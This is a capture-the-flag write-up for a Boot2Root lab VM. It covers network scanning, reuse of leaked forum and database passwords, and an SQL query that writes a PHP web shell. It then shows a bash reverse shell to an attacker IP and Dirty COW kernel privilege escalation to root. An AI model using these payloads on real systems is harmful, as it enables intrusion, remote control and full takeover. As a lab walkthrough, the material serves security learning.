






# Boot2Root - Writeup 1

## STEP 1 - Find the ip and services

When started, the machine asks us for a login, showing nothing but this prompt. Using the Host Network Manager from VirtualBox we can setup a local network between all virtual machines and the host one. By doing so, we get an IP that will be later referenced as <IP>.

we select the Boot to Root machine and we go to Machine > Settings > Network to set the new network. We put Attached to to Host only Adapter and we select the option vboxnet0:

![network VM] (./img/network2.png)

# Analyze local network.
First after knowing the ip address of our host uisng if config :
![ifconfig] (./img/ip_host.png)


we have to do is to scan the network with [`nmap`].

![nmap] (./img/nmap_ip.png)

The target ip is [`192.168.56.101`]

NB: we can also use the `bredge` network and it will work.

## STEP 2 - accessing to the url

we know that now that ports 80 and 443 are open on it meaning there is a website bound to the machine that we can access via HTTP / HTTPS requests.

![https] (./img/boothttps.png)
![http] (./img/boothttp.png)

For now, we could try a powerful tool called `dirb` we could try to identify existing endpoints for this website.

We will scan the ip with dirb on Kali Linux, with the default wordlist

![dirb] (./img/dirb.png)


We found 3 websites we will use them:

https://192.168.56.101/forum/
https://192.168.56.101/phpmyadmin/
https://192.168.56.101/webmail/


# exploit  The forum

There is 4 posts on the forum



The first from the user `lmezard` contain a log from an ssh connection.


On a line, we can see something like a password typed instead of username we will use it to login in the forum directly


It work, Now we are connected on the forum with the user lmezard.



# WEBMAIL

Now we can try to connect in the webmail with the address laurie@borntosec.net and the same password `!q\]Ej?*5K5cy*AJ` 

There is 2 mails. The last mail "DB Access" is interesting, it's a login/password to connect to a database .


``` login: root, password: Fg-'kKXBj87E:aJ$
```

# PHPMYADMIN

PhpMyAdmin is a web interface to manage a database. We can suppose this login/password couple will work on phpmyadmin



We can inject shell commands from an SQL query but we can write in local files. So we will create a php page backdoor for execute some commands in the server. With this query:
```
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
```


# Reverse shell
Now we can try to inject a reverse shell for a prettier access to the server. we will use netcat command . 


We need to use an url encoder  to encode this command for using in a get request `bash -c 'bash -i >& /dev/tcp/192.168.1.116/4444 0>&1' `.
on a broweser or curl we will send a request :

```
https://192.168.56.101/forum/templates_c/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.1%2F4444%200%3E%261%27
```

We get a reverse bash shell on the server!

We are logged as www-data, our rights is limited. But we can search some informations about the server


## STEP 2 - DIRTY COW - Vulnerability

Based on the system information, the host is running an outdated Linux kernel (3.2.0-91-generic-pae) which is vulnerable to several exploits, including the Dirty COW (CVE-2016-5195) privilege escalation vulnerability. 

```
"Dirty COW" refers to a computer security vulnerability that affects the Linux operating system. The name "Dirty COW" is derived from the "Copy-On-Write" mechanism in the Linux kernel, which the vulnerability exploits.

Here’s a bit more detail: It allows an unprivileged local user to gain write access to read-only memory mappings. This could potentially enable them to escalate their privileges on the system or gain unauthorized access to sensitive information. It was significant because it could be exploited to gain root access to the system, which is the highest level of access.

The vulnerability was first discovered in October 2016 and affected a wide range of Linux distributions. Fixes and patches were quickly developed and distributed to mitigate the risk posed by this vulnerability

```


```
https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
https://www.theregister.com/2016/10/21/linux_privilege_escalation_hole/
```

first using  this command to  spawn a fully interactive TTY shell using python:

```
python -c 'import pty; pty.spawn("/bin/bash")'

```

to exploit the root with dirtycow we have to move the dirty.c file to the target shell then we should to compile it :

```
gcc -pthread dirty.c -o dirty -lcrypt

```

It then asks us for a password, we can put 1234
After running the program, the root user will have been replaced by firefart (we can change this default name by modifying the code) and we will be able to log in with the chosen password.





this mission is accomplished now we are the root


